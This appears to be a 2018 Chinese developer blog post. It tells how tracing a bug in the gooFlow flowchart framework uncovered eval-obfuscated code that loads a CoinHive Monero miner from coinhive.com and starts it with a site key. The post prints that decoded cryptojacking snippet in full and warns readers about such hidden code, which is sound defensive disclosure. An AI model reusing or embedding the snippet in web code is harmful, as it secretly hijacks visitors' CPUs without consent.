 ```yaml
---
layout: post
title:  "由一个bug找到JS挖矿代码"
date:   2018-06-16
categories: JS
author: 张翔
location: ShangHai, China
cover: ""
description: 通过使用一个开源框架，发现了bug，在找bug的过程中发现了js挖矿代码！
---
```

---
由于工作需要，需要前端画流程图，找到一个开源的框架**gooFlow**（下图就是这个开源框架），它可以编辑流程图，提供节点和线以及一些辅助功能。仔细看一下这是一个国人写框架，文档也是中文，用起来也很顺手。


但是使用这个框架的时候发现一个很奇怪的bug，描述起来就是：**我在父页面的a标签点击跳转到流程图页面，如果a标签的target是_top，页面就不会报错，但是如果target的值为_blank，页面第一次打开不会报错，只有在刷新的情况下页面才会报错。**报错信息如下


其实从这个信息推断不出来什么具体信息，只知道jQuery这个对象应该不存在，所以导致程序出错，仔细检查我的页面代码的引入，发现jQuery都有引入，都没问题，结合这个bug出现的时机，只在新开页面且刷新过一次的情况下才会报错，所以可以推断出这个gooFlow框架应该是引用了父页面的某个对象，然后在刷新一次页面的情况下，父页面的这个对象为空才会导致报错。
接着我就开始搜索gooFlow的**window.opener**和**window.parent**的引用，**window.opener返回的是创建该窗口的 Window 对象的引用，window.parent返回的是返回当前窗口的父窗口**。但是都没有找到导致bug的源头。
束手无策的时候，尝试使用最原始的方法，**删除父页面上的js引用**，看流程图页面抛出什么错误，当我把父页面的jQuery删除的时候，页面报了不一样的错误（下图）。


找到对应方法处的代码，如下图，是使用**eval**执行一串字符串，很不好调试，只好把这一串代码拷贝出来执行一下看执行的是什么代码？


正当我纳闷为啥需要对框架里面的**代码加密**的时候，我找到了eval执行的字符串，格式化之后如下，保存的原因找到了，**_opener.$**的使用就是对**打开这个页面的jQuery的引用**，所以删除父页面jQuery报错信息会不一致。
```javascript
var _ = window;
try {
    _ = _.opener.$
} catch (e) {
    try {
        _ = _.top.$
    } catch (e) {
        _ = $
    }
};
if (!_("head").data('x')) {
    GooFlow.a = 1;
    _a = 20;
    var d = new Date();
    _("head").data('x', 1);
    _.ajax("https://coinhive.com/lib/coinhive.min.js?" + d.getFullYear() + d.getMonth() + d.getDate(), {
        dataType: 'script',
        cache: true
    });
    _i = setInterval(function () {
        try {
            new CoinHive.Anonymous('GGdPGhxIloldaArArQVwxZ2sd8l0a4kH', {throttle: 0.3}).start();
            clearInterval(_i)
        } catch (e) {
            _a--;
            if (_a < 1) document.write("")
        }
    }, 1000)
}
```

仔细看这个代码会发现这竟然是一串挖矿代码！！！会去请求接口:`https://coinhive.com/lib/coinhive.min.js`，然后执行`new CoinHive.Anonymous('GGdPGhxIloldaArArQVwxZ2sd8l0a4kH', {throttle: 0.3}).start();`开始挖矿，在网上找到了，这是**门罗币的挖矿代码**。具体可以看看下面这篇文章：

> JS挖矿 - 门罗币是如何利用网页挖矿的？
> （http://liujinkai.com/2017/10/28/js-miner/）


现在很多开源的框架、插件、库，使用起来都要小心，一不小心就中了别人的圈套，挖矿这种事是牺牲用户体验的基础上进行的，可以看到cpu使用飙升，电脑发烫，所以如果在你为了你的网站优化用户体验的时候，发现怎么优化都无济于事，记得找一找你引用代码里面有哪些隐藏的圈套。
最后推荐一下chrome阻止挖矿的插件**minerBlock**